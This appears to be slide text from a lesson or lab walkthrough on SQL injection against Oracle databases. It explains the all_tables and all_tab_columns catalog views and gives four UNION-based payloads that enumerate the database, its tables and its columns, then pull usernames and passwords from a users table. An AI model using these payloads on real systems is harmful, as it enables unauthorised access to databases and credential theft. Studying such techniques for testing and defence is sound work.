

Equivalent to information schema on Oracle
You can list tables by querying all_tables : SELECT * FROM all_tables
And you can list columns by querying  all_tab_columns  :  SELECT * FROM  all_tab_columns WHERE  table_name = 'USERS‘

1. Use the following payload to retrieve the list of database:
	' UNION SELECT SYS.DATABASE_NAME,NULL FROM DUAL--

2. Use the following payload to retrieve the list of tables in the database:
	‘ UNION SELECT table_name, NULL FROM all_tables--

3.Use the following payload (replacing the table name) to retrieve the details of the columns in the table
	'UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name ='USER$'—

4. To find information of username and password
	‘ UNION SELECT username_jovsyx, password_abwqcw FROM users_uvlvoo–